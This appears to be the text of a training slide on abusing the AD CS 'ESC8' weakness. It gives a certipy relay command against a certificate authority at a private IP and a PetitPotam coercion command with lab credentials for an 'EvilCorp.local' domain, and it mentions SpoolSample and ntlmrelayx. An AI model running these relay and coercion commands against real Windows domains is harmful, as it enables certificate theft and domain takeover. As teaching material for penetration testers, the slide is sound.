

# ECS8 - Abuse
Run the relay server:
certipy relay -ca 192.168.217.14

You can relay with PetitPotam:
Python3 PetitPotam.py –u  TheHoserman –p EvilCorp3. –d EvilCorp.local –dc-ip 192.168.217.149
SpoolSample, ntlmrelayx…